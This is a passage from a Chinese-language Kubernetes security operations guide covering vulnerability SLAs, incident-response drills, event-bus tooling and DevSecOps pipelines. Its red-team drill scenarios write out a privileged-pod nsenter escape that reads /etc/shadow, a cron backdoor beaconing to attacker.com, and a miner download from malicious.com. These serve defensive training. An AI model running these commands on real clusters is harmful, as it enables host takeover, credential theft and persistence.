                  print(f"- {v['package']}: {v['current']} -> {v['fixed']}")
          
          # 创建Jira工单
          if vulnerabilities:
              print("自动创建漏洞修复工单...")
    workspaces:
    - name: data
      workspace: shared-data
  
  # 任务3: 自动更新Dockerfile
  - name: auto-update-dockerfile
    runAfter: ["analyze-vulnerabilities"]
    taskSpec:
      params:
      - name: git-repo
        default: "https://github.com/company/app.git"
      steps:
      - name: update
        image: alpine/git:latest
        script: |
          #!/bin/sh
          # 克隆仓库
          git clone $(params.git-repo) /workspace/repo
          cd /workspace/repo
          
          # 更新基础镜像版本
          sed -i 's/FROM alpine:3.17/FROM alpine:3.19/g' Dockerfile
          
          # 更新依赖包
          sed -i 's/openssl-1.1.1/openssl-3.1.0/g' requirements.txt
          
          # 提交变更(实际需要配置Git凭证)
          git add .
          git commit -m "Security: Update dependencies to fix CVE-XXXX"
          # git push origin main
  
  # 任务4: 触发重新构建
  - name: trigger-rebuild
    runAfter: ["auto-update-dockerfile"]
    taskRef:
      name: trigger-build-pipeline
    params:
    - name: GIT_REPO
      value: "https://github.com/company/app.git"

---
# ========== 漏洞SLA跟踪 ==========
apiVersion: v1
kind: ConfigMap
metadata:
  name: vulnerability-sla-policy
  namespace: security
data:
  sla-policy.yaml: |
    # 漏洞修复SLA标准
    sla_rules:
      CRITICAL:
        response_time: 4h    # 4小时内响应
        fix_time: 24h        # 24小时内修复
        escalation: "VP of Engineering"
      
      HIGH:
        response_time: 24h
        fix_time: 7d         # 7天内修复
        escalation: "Security Team Lead"
      
      MEDIUM:
        response_time: 7d
        fix_time: 30d
        escalation: "Team Lead"
      
      LOW:
        response_time: 30d
        fix_time: 90d
        escalation: "Optional"
    
    # 豁免规则(某些漏洞无法修复)
    exemptions:
    - cve_id: "CVE-2023-1234"
      reason: "无可用补丁,已通过NetworkPolicy缓解风险"
      approved_by: "CISO"
      expiry_date: "2024-12-31"

---
# ========== 漏洞报告仪表板 ==========
apiVersion: v1
kind: ConfigMap
metadata:
  name: vulnerability-dashboard
  namespace: monitoring
data:
  dashboard.json: |
    {
      "dashboard": {
        "title": "漏洞管理仪表板",
        "panels": [
          {
            "title": "漏洞趋势",
            "targets": [{
              "expr": "sum(trivy_image_vulnerabilities) by (severity)",
              "legendFormat": "{{severity}}"
            }]
          },
          {
            "title": "SLA达成率",
            "targets": [{
              "expr": "sum(vulnerability_fixed_within_sla) / sum(vulnerability_total) * 100"
            }]
          },
          {
            "title": "Top 10受影响镜像",
            "targets": [{
              "expr": "topk(10, sum(trivy_image_vulnerabilities{severity='CRITICAL'}) by (image))"
            }]
          }
        ]
      }
    }
```

**⚠️ 常见误区**

| 误区 | 正确做法 | 影响 |
|------|---------|------|
| ❌ 发现漏洞后立即升级生产环境 | ✅ 先在测试环境验证,再灰度发布 | 升级导致兼容性问题引发故障 |
| ❌ 所有漏洞都要求立即修复 | ✅ 基于CVSS和可利用性评估优先级 | 资源浪费在低风险漏洞上 |
| ❌ 只修复容器镜像漏洞 | ✅ 节点操作系统、K8s组件也要修复 | 节点层漏洞导致容器逃逸 |
| ❌ 修复后不验证 | ✅ 重新扫描确认漏洞已消除 | 修复不彻底或引入新漏洞 |
| ❌ 没有漏洞豁免机制 | ✅ 无法修复的漏洞需要风险缓解措施 | 陷入"永远无法100%修复"的困境 |

**漏洞管理工作流**:
```bash
# 1. 扫描集群所有镜像
trivy k8s --report summary cluster > vuln-report.txt

# 2. 提取CRITICAL漏洞
trivy k8s cluster --severity CRITICAL --format json | \
  jq -r '.Results[].Vulnerabilities[] | "\(.VulnerabilityID) \(.PkgName) \(.InstalledVersion) -> \(.FixedVersion)"'

# 3. 生成修复工单
for vuln in $(cat critical-vulns.txt); do
  gh issue create --title "Security: Fix $vuln" --label security,high-priority
done

# 4. 验证修复效果
trivy image app:v1.0.1 --severity CRITICAL --exit-code 1
# 返回0表示无CRITICAL漏洞

# 5. 生成合规报告
trivy k8s --compliance k8s-cis cluster > cis-compliance-report.txt
```

#### 应急响应演练体系

> **🔰 初学者理解**: 应急响应就像消防演习——平时演练预案,真正起火时才不会慌乱。定期模拟攻击场景(如容器逃逸、数据泄露),测试团队响应速度和处置能力,发现流程中的问题并改进。

**🔧 工作原理**

应急响应演练遵循红蓝对抗模式:

1. **红队(攻击方)**: 模拟真实攻击,如特权容器逃逸、横向移动
2. **蓝队(防守方)**: 检测攻击、遏制威胁、恢复系统
3. **紫队(观察方)**: 记录整个过程,评估响应效果
4. **复盘改进**: 分析响应时间、遗漏点,优化Playbook

**📝 最小示例**

```yaml
# ========== 应急响应演练场景配置 ==========
apiVersion: v1
kind: ConfigMap
metadata:
  name: incident-response-scenarios
  namespace: security
data:
  scenario-1-container-escape.yaml: |
    name: "容器逃逸攻击模拟"
    severity: CRITICAL
    description: "模拟攻击者通过特权容器逃逸到宿主机"
    
    steps:
      # 红队攻击步骤
      - phase: attack
        actions:
        - description: "部署特权容器"
          command: |
            kubectl run attacker --image=nicolaka/netshoot \
              --restart=Never \
              --overrides='{"spec":{"hostPID":true,"hostNetwork":true,"containers":[{"name":"attacker","image":"nicolaka/netshoot","securityContext":{"privileged":true},"command":["sleep","3600"]}]}}'
        
        - description: "在容器内访问宿主机文件系统"
          command: |
            kubectl exec attacker -- nsenter -t 1 -m -u -n -i -- bash -c "cat /etc/shadow"
        
        - description: "植入后门"
          command: |
            kubectl exec attacker -- nsenter -t 1 -m -u -n -i -- bash -c \
              "echo '*/5 * * * * curl http://attacker.com/beacon' | crontab -"
      
      # 蓝队预期响应
      - phase: detection
        expected_alerts:
        - source: "Falco"
          rule: "Privileged Container Spawned"
          timing: "< 30 seconds"
        
        - source: "Falco"
          rule: "Container with Sensitive Mount"
          timing: "< 30 seconds"
        
        - source: "Falco"
          rule: "Read sensitive file untrusted"
          timing: "< 10 seconds"
      
      - phase: response
        expected_actions:
        - action: "隔离受影响Pod"
          timing: "< 2 minutes"
          command: "kubectl delete pod attacker --force"
        
        - action: "检查宿主机异常"
          timing: "< 5 minutes"
          command: "crontab -l | grep attacker.com"
        
        - action: "应用PodSecurityPolicy/PodSecurity"
          timing: "< 10 minutes"
          command: "kubectl label ns default pod-security.kubernetes.io/enforce=restricted"
      
      - phase: recovery
        expected_actions:
        - action: "清除后门"
          command: "crontab -r"
        
        - action: "验证安全策略生效"
          command: |
            kubectl run test --image=alpine --privileged=true
            # 应该被阻止
        
        - action: "生成事件报告"
          command: "generate-incident-report.sh"

  scenario-2-crypto-mining.yaml: |
    name: "加密货币挖矿检测"
    severity: HIGH
    description: "检测和响应容器内挖矿活动"
    
    steps:
      - phase: attack
        actions:
        - description: "部署挖矿程序"
          command: |
            kubectl run miner --image=alpine --command -- sh -c \
              "apk add curl && curl -o xmrig http://malicious.com/xmrig && chmod +x xmrig && ./xmrig"
      
      - phase: detection
        expected_alerts:
        - source: "Falco"
          rule: "Crypto Mining Activity"
        - source: "Prometheus"
          rule: "High CPU Usage Anomaly"
      
      - phase: response
        expected_actions:
        - action: "终止挖矿进程"
          timing: "< 1 minute"
        - action: "隔离受影响节点"
          timing: "< 5 minutes"

---
# ========== 演练自动化执行器 ==========
apiVersion: batch/v1
kind: Job
metadata:
  name: run-incident-drill
  namespace: security
spec:
  template:
    spec:
      serviceAccountName: drill-executor
      containers:
      - name: executor
        image: security/drill-executor:latest
        env:
        - name: SCENARIO
          value: "scenario-1-container-escape"
        - name: SLACK_CHANNEL
          value: "#security-drills"
        command:
        - /bin/bash
        - -c
        - |
          #!/bin/bash
          set -e
          
          echo "========== 应急响应演练开始 =========="
          echo "场景: 容器逃逸攻击模拟"
          echo "时间: $(date)"
          
          # 通知蓝队演练开始
          curl -X POST $SLACK_WEBHOOK -d '{"text":"🚨 应急响应演练开始: 容器逃逸场景"}'
          
          # 执行红队攻击
          echo "[红队] 部署特权容器..."
          kubectl apply -f /scenarios/attacker-pod.yaml
          sleep 5
          
          echo "[红队] 尝试容器逃逸..."
          kubectl exec attacker-pod -- nsenter -t 1 -m -- ls /root
          
          # 等待蓝队响应
          echo "[评估] 等待蓝队检测和响应..."
          DETECTION_TIME=0
          while [ $DETECTION_TIME -lt 300 ]; do
            if kubectl get pod attacker-pod 2>/dev/null | grep -q Terminating; then
              echo "[评估] ✅ 蓝队在 ${DETECTION_TIME}秒内成功响应"
              break
            fi
            sleep 5
            DETECTION_TIME=$((DETECTION_TIME + 5))
          done
          
          if [ $DETECTION_TIME -ge 300 ]; then
            echo "[评估] ❌ 蓝队未能在5分钟内响应"
            curl -X POST $SLACK_WEBHOOK -d '{"text":"⚠️ 演练失败: 响应超时"}'
          fi
          
          # 生成报告
          echo "========== 演练报告 =========="
          echo "检测时间: ${DETECTION_TIME}秒"
          echo "目标时间: 30秒"
          echo "结果: $([ $DETECTION_TIME -le 30 ] && echo 'PASS' || echo 'FAIL')"
          
          # 清理
          kubectl delete pod attacker-pod --force --grace-period=0
          
          echo "========== 演练结束 =========="
      restartPolicy: Never

---
# ========== 演练结果评分卡 ==========
apiVersion: v1
kind: ConfigMap
metadata:
  name: drill-scorecard
  namespace: security
data:
  scorecard.yaml: |
    drill_id: "drill-2024-01-15-001"
    scenario: "容器逃逸攻击"
    date: "2024-01-15T14:00:00Z"
    
    metrics:
      detection:
        time_to_detect: 45        # 秒
        target: 30
        score: 75                 # 分
        status: "NEEDS_IMPROVEMENT"
      
      containment:
        time_to_isolate: 120      # 秒
        target: 120
        score: 100
        status: "PASS"
      
      eradication:
        time_to_remediate: 600    # 秒
        target: 600
        score: 100
        status: "PASS"
      
      recovery:
        time_to_restore: 300
        target: 600
        score: 100
        status: "PASS"
    
    overall_score: 94
    status: "PASS"
    
    findings:
    - severity: MEDIUM
      issue: "Falco告警延迟45秒,需要优化规则"
      recommendation: "调整Falco缓冲区大小,减少延迟"
    
    - severity: LOW
      issue: "事件报告生成耗时过长"
      recommendation: "实现自动化报告生成脚本"
    
    action_items:
    - owner: "Security Team"
      task: "优化Falco配置"
      due_date: "2024-01-22"
    
    - owner: "SRE Team"
      task: "开发自动化报告工具"
      due_date: "2024-01-29"
```

**⚠️ 常见误区**

| 误区 | 正确做法 | 后果 |
|------|---------|------|
| ❌ 演练脚本过于简单,不真实 | ✅ 模拟真实攻击技术(参考MITRE ATT&CK) | 演练无法验证真实应对能力 |
| ❌ 演练前提前通知蓝队 | ✅ 部分演练应该是突然袭击 | 无法测试真实响应速度 |
| ❌ 演练完不复盘 | ✅ 必须生成报告并制定改进计划 | 重复犯同样的错误 |
| ❌ 只在非工作时间演练 | ✅ 随机时间段,包括工作时间 | 无法测试工作时段的响应能力 |
| ❌ 演练影响生产环境 | ✅ 在隔离的staging环境进行 | 演练导致生产事故 |

**演练频率建议**:
```yaml
演练计划:
  季度演练:
    - 容器逃逸
    - 数据泄露
    - 拒绝服务攻击
  
  月度桌面推演:
    - 勒索软件
    - 供应链攻击
    - 内部威胁
  
  年度红蓝对抗:
    - 全面渗透测试
    - 社会工程学
    - 物理安全测试
```

### 5.2 安全监控体系

| 监控维度 | 关键指标 | 告警阈值 | 响应时间 | 负责团队 |
|----------|----------|----------|----------|----------|
| **身份认证** | 失败登录次数、异常认证模式 | >10次/分钟、异地登录 | 1分钟 | 安全运营 |
| **访问控制** | 权限变更、异常访问模式 | 敏感资源访问、权限提升 | 5分钟 | 平台安全 |
| **数据安全** | 数据泄露、异常数据访问 | 大量数据导出、非授权访问 | 10分钟 | 数据保护 |
| **系统安全** | 系统漏洞、补丁状态 | 高危漏洞、补丁缺失 | 2小时 | 基础设施 |
| **网络安全** | 异常流量、DDoS攻击 | 流量激增、连接异常 | 15分钟 | 网络安全 |
| **应用安全** | 应用漏洞、业务逻辑缺陷 | 新发现漏洞、业务异常 | 1小时 | 应用安全 |

### 5.3 安全运维自动化

```yaml
# ========== 安全运维自动化配置 ==========
apiVersion: batch/v1
kind: CronJob
metadata:
  name: security-automation
  namespace: security-ops
spec:
  schedule: "*/30 * * * *"  # 每30分钟执行
  jobTemplate:
    spec:
      template:
        spec:
          serviceAccountName: security-automation
          containers:
          - name: security-checks
            image: security/secops-tools:latest
            env:
            - name: SLACK_WEBHOOK_URL
              valueFrom:
                secretKeyRef:
                  name: secops-secrets
                  key: slack-webhook
            command:
            - /bin/sh
            - -c
            - |
              #!/bin/bash
              set -euo pipefail
              
              echo "开始安全自动化检查..."
              
              # 1. 漏洞扫描
              echo "执行漏洞扫描..."
              trivy k8s --report summary cluster > /tmp/vulnerability-report.txt
              
              # 2. 配置安全检查
              echo "执行配置安全检查..."
              kubescape scan framework nsa --exclude-namespaces kube-system > /tmp/config-security-report.txt
              
              # 3. 权限审计
              echo "执行权限审计..."
              kubectl get clusterroles,clusterrolebindings,roles,rolebindings -A -o wide > /tmp/rbac-audit.txt
              
              # 4. 网络策略检查
              echo "执行网络策略检查..."
              kubectl get networkpolicies -A > /tmp/network-policy-status.txt
              
              # 5. 生成安全报告
              cat > /tmp/security-summary.md <<EOF
              # 安全自动化检查报告
              
              ## 检查时间
              $(date)
              
              ## 主要发现
              $(grep -i "critical\|high" /tmp/vulnerability-report.txt | head -10)
              
              ## 建议措施
              1. 修复高危漏洞
              2. 完善网络策略
              3. 优化RBAC配置
              4. 加强监控告警
              EOF
              
              # 6. 发送通知
              curl -X POST -H 'Content-type: application/json' \
                --data "{\"text\":\"🔐 安全检查完成，发现 $(wc -l < /tmp/vulnerability-report.txt) 个潜在问题\"}" \
                $SLACK_WEBHOOK_URL
              
              echo "安全自动化检查完成"
          restartPolicy: OnFailure

---
# ========== 安全补丁管理 ==========
apiVersion: batch/v1
kind: Job
metadata:
  name: security-patch-management
  namespace: security-ops
spec:
  template:
    spec:
      serviceAccountName: patch-manager
      containers:
      - name: patch-manager
        image: security/patch-manager:latest
        env:
        - name: GITHUB_TOKEN
          valueFrom:
            secretKeyRef:
              name: github-secrets
              key: token
        command:
        - /bin/sh
        - -c
        - |
          #!/bin/bash
          set -euo pipefail
          
          echo "开始安全补丁管理流程..."
          
          # 1. 检查基础镜像更新
          LATEST_ALPINE=$(curl -s https://hub.docker.com/v2/repositories/library/alpine/tags/latest | jq -r .digest)
          CURRENT_ALPINE=$(docker inspect alpine:latest | jq -r '.[0].Id')
          
          if [ "$LATEST_ALPINE" != "$CURRENT_ALPINE" ]; then
            echo "发现Alpine基础镜像更新，触发重建流程"
            # 触发CI/CD流水线重建镜像
            curl -X POST \
              -H "Authorization: token $GITHUB_TOKEN" \
              -H "Accept: application/vnd.github.v3+json" \
              https://api.github.com/repos/organization/base-images/dispatches \
              -d '{"event_type":"base-image-update"}'
          fi
          
          # 2. 检查依赖包安全更新
          OUTDATED_PACKAGES=$(apk list --upgradable | grep -E "(openssl|curl|openssh)")
          if [ -n "$OUTDATED_PACKAGES" ]; then
            echo "发现需要更新的安全包:"
            echo "$OUTDATED_PACKAGES"
            # 生成更新PR
            # 这里可以集成具体的PR创建逻辑
          fi
          
          # 3. 检查Kubernetes版本更新
          CURRENT_VERSION=$(kubectl version --short | grep Server | awk '{print $3}')
          LATEST_STABLE="v1.28.6"  # 假设最新稳定版本
          
          if [ "$CURRENT_VERSION" != "$LATEST_STABLE" ]; then
            echo "Kubernetes版本需要更新: $CURRENT_VERSION -> $LATEST_STABLE"
            # 生成升级计划和风险评估
          fi
          
          echo "安全补丁管理检查完成"
      restartPolicy: Never
```

---

## 6. 安全工具链集成

> **🔰 初学者导读**: 不需要从零构建安全体系,云原生安全工具链已经很成熟。初学者推荐：Trivy(镜像扫描) + Kyverno(策略执行) + Falco(运行时检测) 三件套。

### 6.1 安全工具生态系统

| 工具类别 | 推荐工具 | 核心功能 | 集成方式 | 成本考虑 |
|----------|----------|----------|----------|----------|
| **漏洞扫描** | Trivy、Grype | 镜像/文件系统漏洞检测 | CI/CD插件、Operator | 开源免费 |
| **配置检查** | Checkov、Kubeaudit | 基础设施配置安全检查 | Pre-commit hook、准入控制器 | 开源免费 |
| **运行时防护** | Falco、Sysdig | 实时威胁检测和响应 | DaemonSet、Sidecar | 商业版需付费 |
| **策略执行** | OPA/Gatekeeper | 策略即代码、准入控制 | Admission webhook、CRD | 开源免费 |
| **密钥管理** | HashiCorp Vault、AWS Secrets Manager | 密钥存储、动态密钥生成 | Sidecar注入、外部API | 商业版需付费 |
| **合规检查** | kube-bench、Polaris | 基准检查、最佳实践验证 | 定期Job、实时监控 | 开源免费 |

#### 工具集成架构设计

> **🔰 初学者理解**: 安全工具集成就像建设安防系统的控制中心——摄像头(Falco)、门禁(OPA)、烟雾报警器(Trivy)各司其职,但都要接入中央监控平台统一管理。避免"工具孤岛",实现告警聚合、自动化响应。

**🔧 工作原理**

安全工具链架构分为三层:

1. **数据采集层**: 各工具采集安全数据(Falco事件、Trivy扫描、审计日志)
2. **数据处理层**: 聚合、关联、去重,生成统一的安全事件
3. **响应执行层**: 根据事件严重性触发告警、自动修复、人工介入

核心是**事件总线(Event Bus)**,所有工具将事件发送到统一队列(如Kafka),由响应引擎处理。

**📝 最小示例**

```yaml
# ========== 安全事件总线架构 ==========
apiVersion: v1
kind: ConfigMap
metadata:
  name: security-event-bus-config
  namespace: security
data:
  architecture.yaml: |
    # 数据采集层
    collectors:
      - name: falco
        type: runtime-security
        output: kafka://security-events:9092/falco-events
      
      - name: trivy-operator
        type: vulnerability-scan
        output: kafka://security-events:9092/vuln-events
      
      - name: audit-webhook
        type: k8s-audit
        output: kafka://security-events:9092/audit-events
      
      - name: kyverno
        type: policy-violation
        output: kafka://security-events:9092/policy-events
    
    # 数据处理层
    processors:
      - name: event-aggregator
        input: kafka://security-events:9092/*
        rules:
          # 关联规则:同一Pod的多个事件合并
          - type: correlation
            window: 5m
            key: pod_uid
          
          # 去重规则:相同告警5分钟内只发送一次
          - type: deduplication
            window: 5m
            key: alert_fingerprint
          
          # 富化规则:添加上下文信息
          - type: enrichment
            sources:
              - k8s-api  # 添加Pod/Namespace元数据
              - cmdb     # 添加业务团队信息
        output: processed-events
    
    # 响应执行层
    responders:
      - name: alert-dispatcher
        input: processed-events
        routes:
          - severity: CRITICAL
            destinations:
              - pagerduty
              - slack:#security-critical
          
          - severity: HIGH
            destinations:
              - slack:#security-alerts
              - email:security-team@company.com
          
          - severity: MEDIUM
            destinations:
              - slack:#security-info
      
      - name: auto-remediation
        input: processed-events
        actions:
          - trigger: "Privileged Pod Created"
            action: delete_pod
          
          - trigger: "High Vulnerability Detected"
            action: create_jira_ticket

---
# ========== 事件总线部署(Kafka) ==========
apiVersion: kafka.strimzi.io/v1beta2
kind: Kafka
metadata:
  name: security-events
  namespace: security
spec:
  kafka:
    version: 3.6.0
    replicas: 3
    listeners:
    - name: plain
      port: 9092
      type: internal
      tls: false
    - name: tls
      port: 9093
      type: internal
      tls: true
    config:
      offsets.topic.replication.factor: 3
      transaction.state.log.replication.factor: 3
      transaction.state.log.min.isr: 2
      default.replication.factor: 3
      min.insync.replicas: 2
      log.retention.hours: 168  # 保留7天
    storage:
      type: persistent-claim
      size: 100Gi
  zookeeper:
    replicas: 3
    storage:
      type: persistent-claim
      size: 10Gi
  entityOperator:
    topicOperator: {}
    userOperator: {}

---
# ========== Falco发送到Kafka ==========
apiVersion: v1
kind: ConfigMap
metadata:
  name: falco-kafka-config
  namespace: falco
data:
  falco.yaml: |
    json_output: true
    json_include_output_property: true
    
    # Kafka输出配置
    kafka:
      enabled: true
      brokers: "security-events-kafka-bootstrap.security.svc:9092"
      topic: "falco-events"
      compression: gzip

---
# ========== 事件处理引擎 ==========
apiVersion: apps/v1
kind: Deployment
metadata:
  name: security-event-processor
  namespace: security
spec:
  replicas: 2
  selector:
    matchLabels:
      app: event-processor
  template:
    metadata:
      labels:
        app: event-processor
    spec:
      containers:
      - name: processor
        image: security/event-processor:latest
        env:
        - name: KAFKA_BROKERS
          value: "security-events-kafka-bootstrap:9092"
        - name: CONSUMER_GROUP
          value: "security-event-processors"
        resources:
          requests:
            cpu: "200m"
            memory: "256Mi"
          limits:
            cpu: "1000m"
            memory: "1Gi"

---
# ========== 统一安全仪表板 ==========
apiVersion: v1
kind: ConfigMap
metadata:
  name: unified-security-dashboard
  namespace: monitoring
data:
  dashboard.json: |
    {
      "dashboard": {
        "title": "统一安全运营中心(SOC)",
        "panels": [
          {
            "title": "实时安全事件流",
            "type": "logs",
            "datasource": "Loki",
            "targets": [{
              "expr": "{namespace=\"security\"} |= \"severity\""
            }]
          },
          {
            "title": "事件来源分布",
            "type": "piechart",
            "targets": [{
              "expr": "sum(security_events_total) by (source)"
            }]
          },
          {
            "title": "响应时间统计",
            "type": "stat",
            "targets": [
              {
                "expr": "histogram_quantile(0.95, rate(security_response_duration_seconds_bucket[5m]))",
                "legendFormat": "P95响应时间"
              }
            ]
          },
          {
            "title": "自动修复成功率",
            "type": "gauge",
            "targets": [{
              "expr": "sum(security_auto_remediation_success) / sum(security_auto_remediation_total) * 100"
            }]
          }
        ]
      }
    }
```

**⚠️ 常见误区**

| 误区 | 正确做法 | 后果 |
|------|---------|------|
| ❌ 每个工具单独配置告警通道 | ✅ 统一的事件总线和告警路由 | 告警分散在多个渠道,难以管理 |
| ❌ 所有工具都实时告警 | ✅ 事件聚合去重后再告警 | 告警风暴导致疲劳 |
| ❌ 工具之间没有数据共享 | ✅ 事件关联分析(同一攻击链) | 无法发现复杂攻击模式 |
| ❌ 没有统一的事件格式 | ✅ 定义标准事件Schema(如ECS/OCSF) | 事件难以解析和关联 |
| ❌ 只部署工具不运营 | ✅ 配备SOC团队定期审查事件 | 工具成为摆设 |

**工具集成验证**:
```bash
# 验证Falco事件是否到达Kafka
kubectl exec -n security security-events-kafka-0 -- \
  kafka-console-consumer.sh --bootstrap-server localhost:9092 \
  --topic falco-events --from-beginning --max-messages 10

# 验证事件处理器工作状态
kubectl logs -n security -l app=event-processor --tail=50

# 测试端到端流程
kubectl run test-attack --image=alpine --command -- sh -c "cat /etc/shadow"
# 应该触发:Falco告警 → Kafka → 处理器 → Slack通知

# 查看告警路由统计
kubectl exec -n monitoring prometheus-0 -- promtool query instant \
  'sum(security_alerts_routed_total) by (destination, severity)'
```

#### CI/CD安全集成(DevSecOps)

> **🔰 初学者理解**: CI/CD安全集成就像流水线上的质检站——在代码合并、镜像构建、部署发布的每个环节都自动进行安全检查,有问题立即拦截。"安全左移"意味着越早发现问题,修复成本越低。

**🔧 工作原理**

DevSecOps流水线的安全门禁:

1. **代码阶段**: SAST静态代码扫描、依赖漏洞检查、Secret泄露检测
2. **构建阶段**: 镜像漏洞扫描、Dockerfile安全检查、SBOM生成
3. **测试阶段**: DAST动态测试、渗透测试、合规检查
4. **部署阶段**: 准入控制策略验证、运行时安全配置

每个门禁设置阈值,超过阈值则阻断流水线。

**📝 最小示例**

```yaml
# ========== GitLab CI安全集成 ==========
# .gitlab-ci.yml
stages:
  - code-security
  - build-security
  - deploy-security

# 阶段1: 代码安全检查
sast-scan:
  stage: code-security
  image: returntocorp/semgrep:latest
  script:
    - semgrep --config=auto --json --output=sast-report.json .
    # 检查是否有HIGH/CRITICAL级别问题
    - |
      HIGH_COUNT=$(jq '[.results[] | select(.extra.severity=="ERROR")] | length' sast-report.json)
      if [ $HIGH_COUNT -gt 0 ]; then
        echo "发现 $HIGH_COUNT 个高危代码问题,流水线阻断"
        exit 1
      fi
  artifacts:
    reports:
      sast: sast-report.json

dependency-check:
  stage: code-security
  image: snyk/snyk:node
  script:
    - snyk test --severity-threshold=high --json-file-output=snyk-report.json
  artifacts:
    reports:
      dependency_scanning: snyk-report.json
  allow_failure: false

secret-detection:
  stage: code-security
  image: trufflesecurity/trufflehog:latest
  script:
    - trufflehog filesystem . --json > secrets-report.json
    - |
      if grep -q '"Verified":true' secrets-report.json; then
        echo "检测到已验证的Secret泄露,流水线阻断!"
        exit 1
      fi

# 阶段2: 镜像安全检查
build-and-scan:
  stage: build-security
  image: docker:latest
  services:
    - docker:dind
  script:
    # 构建镜像
    - docker build -t $CI_REGISTRY_IMAGE:$CI_COMMIT_SHA .
    
    # 镜像安全扫描
    - docker run --rm -v /var/run/docker.sock:/var/run/docker.sock \
        aquasec/trivy image --exit-code 1 --severity HIGH,CRITICAL \
        --format json --output trivy-report.json \
        $CI_REGISTRY_IMAGE:$CI_COMMIT_SHA
    
    # Dockerfile安全检查
    - docker run --rm -v $(pwd):/project \
        bridgecrew/checkov -d /project --framework dockerfile \
        --output-file-path /project/checkov-report.json
    
    # 生成SBOM
    - docker run --rm -v /var/run/docker.sock:/var/run/docker.sock \
        anchore/syft $CI_REGISTRY_IMAGE:$CI_COMMIT_SHA \
        -o cyclonedx-json > sbom.json
    
    # 推送镜像(带签名)
    - cosign sign --key cosign.key $CI_REGISTRY_IMAGE:$CI_COMMIT_SHA
    - docker push $CI_REGISTRY_IMAGE:$CI_COMMIT_SHA
  artifacts:
    reports:
      container_scanning: trivy-report.json
    paths:
      - sbom.json

# 阶段3: 部署前安全验证
policy-validation:
  stage: deploy-security
  image: openpolicyagent/conftest:latest
  script:
    # 验证K8s YAML是否符合安全策略
    - conftest test deployment.yaml -p security-policies/ --output json
  artifacts:
    reports:
      junit: conftest-report.xml

deploy-to-staging:
  stage: deploy-security
  image: bitnami/kubectl:latest
  script:
    # 部署到staging环境
    - kubectl apply -f deployment.yaml -n staging --dry-run=server
    
    # 运行时安全扫描(部署后)
    - kubectl run security-scan --rm -i --restart=Never \
        --image=aquasec/trivy -- k8s --report summary cluster
  environment:
    name: staging
  only:
    - main

---
# ========== GitHub Actions安全集成 ==========
# .github/workflows/security.yml
name: Security Checks

on:
  pull_request:
    branches: [main]
  push:
    branches: [main]

jobs:
  # Job 1: 代码安全
  code-security:
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v3
    
    - name: SAST扫描
      uses: github/codeql-action/analyze@v2
    
    - name: 依赖扫描
      uses: snyk/actions/node@master
      env:
        SNYK_TOKEN: ${{ secrets.SNYK_TOKEN }}
      with:
        args: --severity-threshold=high
    
    - name: Secret扫描
      uses: trufflesecurity/trufflehog@main
      with:
        path: ./
        base: ${{ github.event.repository.default_branch }}
        head: HEAD

  # Job 2: 镜像安全
  image-security:
    runs-on: ubuntu-latest
    needs: code-security
    steps:
    - uses: actions/checkout@v3
    
    - name: 构建镜像
      run: docker build -t myapp:${{ github.sha }} .
    
    - name: Trivy扫描
      uses: aquasecurity/trivy-action@master
      with:
        image-ref: myapp:${{ github.sha }}
        format: 'sarif'
        output: 'trivy-results.sarif'
        severity: 'CRITICAL,HIGH'
    
    - name: 上传扫描结果到GitHub Security
      uses: github/codeql-action/upload-sarif@v2
      with:
        sarif_file: 'trivy-results.sarif'
    
    - name: 镜像签名
      uses: sigstore/cosign-installer@main
    - run: cosign sign --key env://COSIGN_KEY myapp:${{ github.sha }}
      env:
        COSIGN_KEY: ${{ secrets.COSIGN_KEY }}
        COSIGN_PASSWORD: ${{ secrets.COSIGN_PASSWORD }}

  # Job 3: 部署安全
  deploy-security:
    runs-on: ubuntu-latest
    needs: image-security
    steps:
    - name: 策略验证
      uses: instrumenta/conftest-action@master
      with:
        files: k8s/deployment.yaml
        policy: security-policies/
    
    - name: 部署到K8s
      uses: azure/k8s-deploy@v1
      with:
        manifests: |
          k8s/deployment.yaml
        images: myapp:${{ github.sha }}
        namespace: production

---
# ========== OPA安全策略示例 ==========
# security-policies/deployment.rego
package main

import future.keywords.contains
import future.keywords.if

# 拒绝root用户
deny[msg] {
    input.kind == "Deployment"
    container := input.spec.template.spec.containers[_]
    not container.securityContext.runAsNonRoot
    msg := sprintf("容器 %v 必须以非root用户运行", [container.name])
}

# 要求只读根文件系统
deny[msg] {
    input.kind == "Deployment"
    container := input.spec.template.spec.containers[_]
    not container.securityContext.readOnlyRootFilesystem
    msg := sprintf("容器 %v 必须使用只读根文件系统", [container.name])
}

# 要求资源限制
deny[msg] {
    input.kind == "Deployment"
    container := input.spec.template.spec.containers[_]
    not container.resources.limits.memory
    msg := sprintf("容器 %v 必须设置内存限制", [container.name])
}

# 拒绝特权容器
deny[msg] {
    input.kind == "Deployment"
    container := input.spec.template.spec.containers[_]
    container.securityContext.privileged
    msg := sprintf("禁止使用特权容器: %v", [container.name])
}
```

**⚠️ 常见误区**

| 误区 | 正确做法 | 后果 |
|------|---------|------|
| ❌ 安全检查只在生产部署前 | ✅ 每个阶段都有安全门禁 | 问题发现太晚,修复成本高 |
| ❌ 所有告警都阻断流水线 | ✅ 根据严重性分级(CRITICAL阻断,MEDIUM告警) | 影响开发效率 |
| ❌ 扫描工具报告不归档 | ✅ 上传到制品库或Security Dashboard | 无法追溯历史漏洞 |
| ❌ 绕过安全检查的"快速通道" | ✅ 任何绕过都需要CISO审批并记录 | 安全门禁形同虚设 |
| ❌ 开发者不理解安全告警 | ✅ 提供修复建议和文档链接 | 开发者忽略或误报告 |

**DevSecOps成熟度评估**:
```yaml
成熟度级别:
  Level 0 (无):
    - 没有自动化安全检查
    - 安全靠人工审查
  
  Level 1 (初级):
    - CI中有漏洞扫描
    - 手动处理扫描结果
  
  Level 2 (中级):
    - 多阶段安全门禁
    - 自动阻断高危问题
    - 安全报告可视化
  
  Level 3 (高级):
    - 统一安全事件平台
    - 自动化修复建议
    - 安全KPI监控
  
  Level 4 (卓越):
    - 智能威胁检测
    - 预测性安全分析
    - 安全文化深入团队
```

### 6.2 安全工具链部署

```yaml
# ========== 安全工具链统一部署 ==========
apiVersion: v1
kind: Namespace
metadata:
  name: security-tools
  labels:
    security-tier: "platform"

---
# Trivy Operator - 持续漏洞扫描
apiVersion: helm.cattle.io/v1
kind: HelmChart
metadata:
  name: trivy-operator
  namespace: security-tools
spec:
  chart: trivy-operator
  repo: https://aquasecurity.github.io/helm-charts/
  version: "0.18.0"
  values:
    trivy:
      ignoreUnfixed: true
      severity: "CRITICAL,HIGH"
      resources:
